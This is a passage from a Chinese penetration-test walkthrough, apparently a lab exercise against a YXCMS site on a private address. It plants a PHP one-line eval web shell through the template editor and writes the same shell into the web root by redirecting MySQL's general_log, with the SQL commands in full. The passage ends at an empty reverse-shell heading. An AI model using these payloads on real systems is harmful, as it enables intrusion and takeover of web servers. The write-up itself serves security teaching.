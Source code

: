 **前台模板处可以进行编辑**；**数据库可以执行sql语句**，这两点已经暗示的很明显了，上传文件管理的地方其实不能上传



### 一句话木马拿WebShell

这里我们使用一句话木马，然后通过查找目录泄露查找文件路径

```
<?php eval($_POST['x']);?>
```

![image-20210323123721369](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210323123721369.png)

查找到路径，蚁剑连接

```
http://192.168.248.128/yxcms/protected/apps/default/view/default/acomment.php
```

![image-20210323124136903](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210323124136903.png)

![image-20210323124200781](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210323124200781.png)





### SQL注入拿WebShell

这里再试一下SQL注入拿Webshell，我们用**数据库写日志**的老方法来添加WebShell

```
show variables like "%general%"
set global general_log=on;		# 开启日志  
set global general_log_file='C:/phpStudy/WWW/yxcms/hack.php';		# 设置日志位置为网站目录
select "<?php eval($_POST['a']);?>";
```

![QQ截图20210323133147](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/QQ%E6%88%AA%E5%9B%BE20210323133147.png)

![QQ截图20210323133247](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/QQ%E6%88%AA%E5%9B%BE20210323133247.png)

![QQ截图20210323133347](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/QQ%E6%88%AA%E5%9B%BE20210323133347-1616478149671.png)

![QQ截图20210323133447](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/QQ%E6%88%AA%E5%9B%BE20210323133447.png)

![QQ截图20210323133547](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/QQ%E6%88%AA%E5%9B%BE20210323133547.png)

这样我们SQL也成功注入了shell，同样可以连接成功，而且拿到了管理员权限

![image-20210323134539684](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210323134539684.png)





### 反弹shell拿到WebShell
